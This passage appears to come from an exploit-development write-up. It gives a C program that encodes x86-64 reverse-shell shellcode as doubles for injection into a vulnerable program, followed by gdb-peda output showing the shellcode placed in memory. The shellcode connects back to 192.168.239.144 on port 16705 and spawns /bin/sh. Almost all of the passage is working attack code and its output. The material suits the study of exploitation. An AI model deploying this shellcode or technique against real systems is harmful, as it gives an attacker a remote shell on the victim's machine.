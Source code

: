 Using that converter:

```lang-clike line-numbers 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, const char *argv[]) {

        /* The address and port for the shellcode */
        #define SCPORT "\x41\x41" /* 16705 */
        #define SCIPADDR "\xc0\xa8\xef\x90" /* 192.168.239.144 */

        /* The shellcode */
        char shellcode[] =
          "\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
          "\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
          "\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
          "\x02"SCPORT"\xc7\x44\x24\x04"SCIPADDR"\x48\x89\xe6\x6a\x10"
          "\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
          "\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
          "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
          "\x5f\x6a\x3b\x58\x0f\x05"
          /* End with a bunch of NOPs to make sure it's a multiple of 8 */
          "\x90\x90\x90\x90\x90\x90\x90\x90";


        int i;
        for(i = 0; i < strlen(shellcode); i += 8) {
          char buf[1024];
          double d;

          /* Convert the value to a double */
          memcpy(&d, shellcode + i, 8);

          /* Turn the double into a string */
          sprintf(buf, "%.127lg\n", d);
          printf("%s", buf);
        }
        exit(0);
}
```

This program will generate the doubles we need to send in order to place our shellcode that will look like this:

```lang-clike line-numbers 
gdb-peda$ x/64x $rdx
0x603140:   0x0000000000000010  0x0000000000000000
0x603150:   0x3148ff3148c03148  0x6ac0314dd23148f6  <--- shellcode
0x603160:   0x5a066a5e016a5f02  0xc08949050f58296a
0x603170:   0x5241d2314df63148  0x2444c766022404c6
0x603180:   0xc0042444c7414102  0x106ae6894890efa8
0x603190:   0x0f582a6a5f50415a  0x485e036af6314805
0x6031a0:   0x75050f58216aceff  0x5a5e5757ff3148f6
0x6031b0:   0x2f6e69622f2fbf48  0x545708efc1486873
0x6031c0:   0x9090050f583b6a5f  0x0000909090909090  <---- ending nops
0x6031d0:   0x0000000000000000  0x0000000000000000
```
